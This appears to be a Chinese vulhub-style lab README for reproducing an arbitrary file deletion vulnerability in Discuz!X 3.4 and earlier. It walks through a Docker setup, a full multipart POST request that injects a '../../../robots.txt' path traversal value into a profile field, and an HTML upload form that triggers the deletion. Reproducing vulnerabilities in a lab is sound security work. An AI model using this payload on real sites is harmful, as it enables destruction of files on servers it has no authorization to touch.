





# Discuz!X ≤3.4 任意文件删除漏洞

影响版本：Discuz!X ≤3.4

漏洞详情：https://lorexxar.cn/2017/09/30/dz-delete/

## 启动环境

执行下列命令部署 Discuz!X 安装环境

```
docker-compose up -d
```

安装时，只用修改数据库地址为`db`，其他保持默认即可：



## 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：



注册用户后，在个人设置页面找到自己的formhash：



带上自己的Cookie、formhash发送如下数据包：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [your cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

[your formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s--

```

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：



说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

用浏览器打开该页面，上传一个正常图片。此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除：


